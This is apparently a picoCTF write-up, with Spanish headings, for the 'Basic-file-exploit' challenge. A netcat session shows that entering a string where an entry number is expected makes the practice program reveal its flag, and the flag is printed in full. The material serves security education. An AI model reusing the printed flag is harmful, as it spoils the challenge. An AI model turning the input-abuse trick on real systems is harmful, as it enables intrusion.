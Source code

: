 # Basic-file-exploit
## Descripcipción
The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 50959`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/141/program-redacted.c).
## Pistas
- Try passing in things the program doesn't expect. Like a string instead of a number.
## Solucion
```
┌──(kali㉿kali)-[~/Documents/binary/basic]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
2No data yet
1
21
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
No data given.
Please put in a valid number
3
3
                                                                            
┌──(kali㉿kali)-[~/Documents/binary/basic]
└─$ nc saturn.picoctf.net 50959

┌──(kali㉿kali)-[~/Documents/binary/basic]
└─$ nc saturn.picoctf.net 50959
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
2
2
2No data yet
1
21
Please type either 1, 2 or 3
Maybe breaking boundaries elsewhere will be helpful
No data given.
Please put in a valid number
1
1
Please enter your data:
hello
hello
Please enter the length of your data:
5
5
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
hello
hello
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}

```
## Bandera
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
## Notas adicionales
## Referencias
https://www.youtube.com/watch?v=JUrp4lL22JA